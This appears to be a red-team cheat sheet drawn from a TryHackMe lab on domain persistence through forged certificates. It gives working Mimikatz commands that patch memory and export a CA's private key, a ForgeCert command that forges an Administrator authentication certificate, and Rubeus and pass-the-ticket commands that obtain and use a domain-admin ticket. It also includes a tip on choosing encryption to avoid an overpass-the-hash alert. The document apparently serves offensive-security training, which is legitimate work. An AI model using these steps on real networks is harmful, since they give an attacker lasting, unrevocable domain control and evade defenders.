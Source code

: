 --- ---

==**This technique is incredibly invasive and hard to remove. Even if you have signoff on your red team exercise to perform these techniques, you must take the utmost caution when performing these techniques. In real-world scenarios, the exploitation of most of these techniques would result in a full domain rebuild.**==

<h2>General</h2>
Persistence through certificates refers to a method of maintaining access to a compromised network by using forged or stolen digital certificates. All we need is a valid certificate that can be used for Client Authentication. This will allow us to use the certificate to request a TGT. The beauty of this? We can continue requesting TGTs no matter how many rotations they do on the account we are attacking.

Digital certificates are used to authenticate the identity of a user or device, and they are typically used in secure communication protocols such as HTTPS, SSL, and TLS.

An attacker can use a forged or stolen digital certificate to authenticate themselves as a trusted user or device, allowing them to gain access to network resources and maintain a persistent presence on the network. They can also use a forged certificate to establish a man-in-the-middle (MitM) attack, allowing them to intercept and manipulate network traffic.

Depending on our access, we can take it another step further. We could simply steal the private key of the root CA's certificate to generate our own certificates whenever we feel like it. Even worse, since these certificates were never issued by the CA, the blue team has no ability to revoke them. This would be even worse for the blue team since it would mean a rotation of the CA, meaning all issued certificates would have to be revoked by the blue team to kick us out.

---

<h2>Commands</h2>

<h3>Extracting the Private Key</h3>
The private key of the CA is stored on the CA server itself. If the private key is not protected through hardware-based protection methods such as an Hardware Security Module (HSM), which is often the case for organisations that just use Active Directory Certificate Services (AD CS) for internal purposes, it is protected by the machine Data Protection API (DPAPI). This means we can use tools such as Mimikatz and SharpDPAPI to extract the CA certificate and thus the private key from the CA.

- It's suggester to create a new directory before launching Mimikatz to get all the exported elements on the same place without any others files

Launch Mimikatz & find CA private Keys
```
mimikatz.exe

mimikatz # crypto::certificates /systemstore:local_machine
```

We can also note that some of these certificates were set not to allow us to export the key. Without this private key, we would not be able to generate new certificates. Luckily, Mimikatz allows us to patch memory to make these keys exportable

Path Memory (Restoration)
```
mimikatz # privilege::debug
mimikatz # crypto::capi
mimikatz # crypto::cng
```

Export Private Keys
```
mimikatz # crypto::certificates /systemstore:local_machine /export
```

The exported certificates will be stored in both PFX and DER format to disk (Example)
```
05/10/2022  12:12 PM             1,423 local_machine_My_0_.der
05/10/2022  12:12 PM             3,299 local_machine_My_0_.pfx
05/10/2022  12:12 PM               939 local_machine_My_1_za-THMDC-CA.der
05/10/2022  12:12 PM             2,685 local_machine_My_1_za-THMDC-CA.pfx
05/10/2022  12:12 PM             1,534 local_machine_My_2_THMDC.za.tryhackme.loc.der
05/10/2022  12:12 PM             3,380 local_machine_My_2_THMDC.za.tryhackme.loc.pfx
05/10/2022  12:12 PM             1,465 local_machine_My_3_.der
05/10/2022  12:12 PM             3,321 local_machine_My_3_.pfx 
```

The `za-THMDC-CA.pfx` certificate is the one we are particularly interested in. In order to export the private key, a password must be used to encrypt the certificate. By default, Mimikatz assigns the password of `mimikatz`.

Download the Certificate on your attacking machine and follow the next step if desired (Copy it to other low user priv when you desire to upgrade your permission following the next steps)


<h3>Generating our own Certificates</h3>
Now that we have the private key and root CA certificate, we can use the SpectorOps [ForgeCert](https://github.com/GhostPack/ForgeCert) tool to forge a Client Authenticate certificate for any user we want

Forge a new Certificate (ForgeCert)
```
ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123 
```
- Parameters explained:
	-   **CaCertPath - The path to our exported CA certificate.**
	-   **CaCertPassword** - The password used to encrypt the certificate. By default, Mimikatz assigns the password of `mimikatz`.
	-   **Subject** - The subject or common name of the certificate. This does not really matter in the context of what we will be using the certificate for.
	-   **SubjectAltName** - This is the User Principal Name (UPN) of the account we want to impersonate with this certificate. It has to be a legitimate user.
	-   **NewCertPath** - The path to where ForgeCert will store the generated certificate.
	-   **NewCertPassword** - Since the certificate will require the private key exported for authentication purposes, we must set a new password used to encrypt it.


Generate TGT from the Certificate ([Rubeus](https://github.com/GhostPack/Rubeus))
```
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate: /password: /outfile: /domain:za.tryhackme.loc /dc:

# Example
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:10.200.x.101
```
- Parameters explained:
	-   **/user** - This specifies the user that we will impersonate and has to match the UPN for the certificate we generated
	-   **/enctype** -This specifies the encryption type for the ticket. Setting this is important for evasion, since the default encryption algorithm is weak, which would result in an overpass-the-hash alert
	-   **/certificate** - Path to the certificate we have generated
	-   **/password** - The password for our certificate file
	-   **/outfile** - The file where our TGT will be output to
	-   **/domain** - The FQDN of the domain we are currently attacking
	-   **/dc** - The IP of the domain controller which we are requesting the TGT from. Usually, it is best to select a DC that has a CA service running


TGT = administrator.kirbi

Use Mimikatz to load the TGT and authenticate to THMDC
```
mimikatz.exe

mimikatz # kerberos::ptt administrator.kirbi

exit

dir \\DC.DOMAIN\c$\
```